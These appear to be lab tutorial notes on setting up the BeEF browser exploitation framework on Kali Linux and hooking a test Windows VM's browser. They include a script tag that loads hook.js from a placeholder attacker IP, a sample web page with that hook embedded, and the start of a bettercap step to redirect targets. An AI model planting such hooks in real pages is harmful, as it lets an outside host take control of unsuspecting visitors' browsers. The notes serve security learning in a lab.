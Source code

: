Install beef from kai repo
```sh
sudo apt install beef-xss
```

Start service 
```sh
sudo service beef-xss start
```

Verify service
```sh
sudo service beef-xss status
```

Start beef
```sh
sudo beef-xss start
```

```sh
sudo beef-xss
```

Login details:
User: beef
Pass: asks you to create one when you first launch the framework

Beef will display a local address that you copy and launch in your browser:
```sh
127.0.0.1:3000/ui/panel
```

In the same section it tells you your beef hook which you use to hook targets browsers.:
```java
<script src="http://<attacker-ip>:3000/hook.js"></script>
```

How to insatll
```sh
sudo apt install beef-xss
```

We can test it on our Windows VM. Make sure to switch Kali back to Nat Network. 

We can put our hook in the html file on our server. We'll make a simple page and add our hook to the code.

```html
<h1>Hello From My Basic Webpage!</h1>
<script src="http://<attacker-ip>:3000/hook.js"></script>
```

We could use bettercap to redirect a target to our new beef hook web-page:

Start bettercap
```sh
sudo bettercap -iface eth0
```

Start probe
```sh
net.probe on
```
